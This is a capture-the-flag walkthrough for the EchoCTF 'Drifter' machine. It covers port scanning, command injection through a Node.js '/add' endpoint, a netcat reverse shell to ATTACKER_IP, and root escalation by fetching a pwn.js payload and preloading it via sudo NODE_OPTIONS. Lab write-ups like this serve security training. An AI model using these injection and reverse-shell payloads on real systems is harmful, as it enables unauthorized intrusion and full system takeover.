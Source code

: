 **EchoCTF Drifter Walkthrough**

Below is a concise, step-by-step guide following proper hacking methodology: starting with port enumeration, then service enumeration, source analysis, exploitation, and privilege escalation.

---

## 1. Target Enumeration

1. **Port & Service Discovery**

   ```bash
   nmap -sVC -T4 -Pn -p 1337 <TARGET_IP>
   ```

   * Port 1337 is open, running Node.js with Express middleware.
   * Basic OS fingerprint suggests a Linux host.

2. **Service Banner & HTTP Check**

   ```bash
   curl -I http://<TARGET_IP>:1337
   ```

   * Confirms an Express-powered web server.
   * Standard HTTP headers with status `200 OK`.

---

## 2. Source Analysis & Command Injection

1. **Review the `/add` Endpoint**

   * The web application provides a form that submits to `/add` via `POST`, accepting a single parameter `vmname`.
   * Sample response reveals an attempt to run a `vagrant` command:

     ```json
     {"error": "/bin/sh: 1: vagrant: not found"}
     ```

2. **Identify Injection Point**

   * The backend likely uses:

     ```js
     const { exec } = require('child_process');
     exec(`vagrant ${vmname}`, callback);
     ```

   * Unsanitized input permits shell metacharacter chaining.

---

## 3. Exploiting Command Injection

1. **Confirm Injection**

   ```bash
   curl -s -X POST http://<TARGET_IP>:1337/add \
     -d 'vmname=box; id'
   ```

   * The output of `id` appearing in the HTTP response confirms RCE.

2. **Spawn a Reverse Shell**

   * **On attacker machine**:

     ```bash
     nc -lvnp 4444
     ```

   * **Trigger on target**:

     ```bash
     curl -s -X POST http://<TARGET_IP>:1337/add \
       -d 'vmname=box; nc -e /bin/bash ATTACKER_IP 4444'
     ```

   * You now have an interactive shell as the `ETSCTF` user.

---

## 4. Privilege Escalation via Sudo

1. **Enumerate Sudo Rights**

   ```bash
   sudo -l
   ```

   * Output indicates:

     ```
     (ALL) SETENV: NOPASSWD: /usr/bin/node /app/cli.js
     ```

   * This allows running the Node CLI as root while preserving environment variables.

2. **Exploit with NODE\_OPTIONS Preload**

   * **On your local machine**, create `pwn.js`:

     ```js
     require('child_process').spawnSync('/bin/bash', ['-i'], {stdio: 'inherit'});
     ```

   * Serve it via HTTP:

     ```bash
     python3 -m http.server 8000
     ```

   * **On the target**:

     ```bash
     cd /tmp
     curl http://<ATTACKER_IP>:8000/pwn.js -o pwn.js
     cd /app
     sudo NODE_OPTIONS="--require /tmp/pwn.js" /usr/bin/node /app/cli.js
     ```

   * This loads your script and spawns a root shell.

3. **Verify Root Privileges**

   ```bash
   whoami && id
   ```

   * Confirmed output: `root`.

---

*Happy hacking!*
